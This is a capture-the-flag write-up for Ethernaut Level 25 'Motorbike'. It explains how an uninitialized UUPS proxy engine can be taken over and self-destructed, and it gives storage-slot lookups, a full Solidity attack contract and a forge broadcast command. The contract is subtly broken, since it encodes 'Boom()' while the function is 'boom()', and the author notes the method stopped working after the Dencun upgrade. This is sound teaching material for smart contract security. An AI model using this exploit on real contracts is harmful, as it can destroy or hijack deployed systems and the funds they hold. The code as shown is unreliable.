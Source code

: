 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/25-motorbike.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 25 - Motorbike</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Dencun upgrade](#dencun-upgrade)
  - [Old solution](#old-solution)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/25-motorbike-requirements.webp" width="800px"/>

## The hack

### Dencun upgrade

NOTE: The "old" solution for this challenge is not working anymore since the Dencun upgrade. The issue is with the new behavior of the `selfdestruct` opcode. See [EIP6780](https://eips.ethereum.org/EIPS/eip-6780).

> <i>Contract Self Destructed, but was later reinitalized with new ByteCode</i>

However, according to this github thread, it seems that it is still doable:
https://github.com/OpenZeppelin/ethernaut/issues/701

I will update this file if I crack it.

### Old solution

In order to self-destruct the `Engine` contract, we need to upgrade it to a new implementation since there is no `selfdestruct()` in this one. We can call the `upgradeToAndCall()` function for that, but we first need to become the `upgrader` inside the `Engine` contract to pass the `_authorizeUpgrade()` access check.

```javascript
function _authorizeUpgrade() internal view {
    require(msg.sender == upgrader, "Can't upgrade");
}
```

There is no way to do that by calling the Motorbike contract directly. But, we see that the Motorbike contract is using a delegatecall to initialize the Engine contract. This means that, as far as the Engine knows, `Engine::upgrader` hasn't been set yet (still `address(0)`), so we can call the `initialize()` function from our exploit contract directly.

Let's get the current Engine implementation address:

- In your Ethernaut browser console:

```javascript
await web3.eth.getStorageAt(
  instance,
  "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc"
  // => 0x000000000000000000000000239bcf976042946e51690c2de9fea5d017eb282c
  // => 0x239bcf976042946e51690c2de9fea5d017eb282c
);
```

- In Foundry using `forge`:

```java
address engine = address(
            uint160(
                uint256(
                    vm.load(
                        motorbikeInstance,
                        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
                    )
                )
            )
        );
```

Then, we can upgrade the Engine contract to a new implementation address with the `upgradeToAndCall()` function and call the `boom()` function to self-destruct it.

## Solution

Let's implement the code accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IEngine {
    function initialize() external;

    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable;
}

contract Bicycle {
    IEngine private immutable engine;

    constructor(address _engine) {
        engine = IEngine(_engine);
    }

    function attack() public {
        // 1. Initialize the engine contract
        engine.initialize();
        // 2. Upgrade the engine contract to a new implementation and kill it
        engine.upgradeToAndCall(
            address(this),
            abi.encodeWithSignature("Boom()")
        );
    }

    function boom() external {
        selfdestruct(payable(msg.sender));
    }
}
```

You can run the script with the following command:

```bash
forge script script/25_Motorbike.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- UUPS Proxies are better than the older EIP-1967 proxies but still need to be carefully implemented.
- Sensitive functions such as contract upgrades should be protected by access control.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
